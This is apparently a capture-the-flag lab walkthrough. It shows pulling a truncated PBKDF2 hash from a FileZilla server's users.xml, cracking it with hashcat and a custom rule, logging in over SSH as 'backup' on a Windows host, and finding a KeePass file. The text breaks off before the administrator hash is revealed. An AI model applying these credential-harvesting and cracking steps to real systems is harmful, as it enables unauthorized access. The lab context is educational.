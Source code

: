 Under the `Configs` folder we can find `users.xml`

```
-r--r--r-- 1 ftp ftp            2236 Dec 17 14:54 users.xml
```

Upon opening it we can see another user called `backup` and its hashed password.

```xml
<user name="backup" enabled="true">
	...
	<password index="1">
		<hash>ZqRNhkBO8d4VYJb0YmF7cJgjECAH4...</hash>
		<salt>aec9Yt49edyEvXkZUinmS52UrwNo...</salt>
		<iterations>100000</iterations>
	</password>
	...
```

We can check the FileZilla's forums to see what type of hash it is, specifically I used these:

- https://forum.filezilla-project.org/viewtopic.php?t=55179
- https://forum.filezilla-project.org/viewtopic.php?t=54821
- https://john-users.openwall.narkive.com/giDMyLS3/using-pbkdf2-hmac-sha256

We should replace the `+` with `.` in our hash before trying to crack it, the format should be this: `$pbkdf2-sha256$iterations$salt$hash`

Since the hash doesn't crack with `rockyou` we should try to pass some simple rules such as:

```
$1$2$3
```

which is derived from the credentials that we gathered, specifically `firewalls.txt`

```
$ hashcat -m 20300 ./filezilla.hash /opt/rockyou.txt -r ./hash_rule.txt
```

This cracks to `....123`, then we can use this password to log in with `ssh` into the server:

```
Microsoft Windows [Version 10.0.20348.2159]
(c) Microsoft Corporation. All rights reserved.

backup@BERSRV200 C:\Users\backup>
```

Listing the `C:\Users` we can see another users: `clare.frost` and `sasrv200`, we should keep note of them. Using the `users.xml` we can see that there is an `E:\` drive, we can explore that further.

We can see some interesting files there such as:

```
it.kdbx
filezilla-server.log
install.log
```

We can discover the administrator's hash there: 
